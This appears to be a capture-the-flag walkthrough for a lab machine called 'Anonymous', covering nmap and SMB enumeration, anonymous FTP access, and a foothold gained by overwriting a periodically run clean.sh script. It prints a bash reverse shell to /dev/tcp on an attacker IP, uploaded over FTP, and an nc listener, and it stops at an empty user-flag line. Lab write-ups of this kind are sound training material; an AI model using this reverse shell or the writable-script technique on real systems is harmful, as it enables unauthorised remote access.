





# Anonymous

--------------------------------------------------------------------

**TOOLS USED**: nmap, smbclient, netcat

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.43.144

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info
-p-: scan all ports
-T SCAN_SPEED (0-5)
```
nmap -sV 10.10.43.144
```



**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 2.0.8),<br>
    22 (ssh OpenSSH 7.6p1),<br>
    139 (netbios-ssn Samba smbd),<br>
    445 (netbios-ssn Samba smbd)


Anonymous ftp login allowed

```
ftp anonymous@10.10.43.144 
```



Looks like clean.sh is being run periodically<br>
We have write permission so we can inject our own code

Found 3 files

Enumerate smb shares
```
smbclient -L //10.10.43.144 -N
```



Found user share pics

Access pics share
```
smbclient //10.10.43.144/pics -N
```



Found 2 images<br>
Might have hidden data

### 2. REVERSE SHELL

Replace clean.sh with this code for reverse shell
```
bash -i >& /dev/tcp/10.6.40.234/4444 0>&1
```



Upload updated version to ftp
```
ftp anonymous@10.10.43.144 
cd scripts
put clean.sh
```

Start listener
```
nc -lnvp 4444
```


**USER FLAG**: 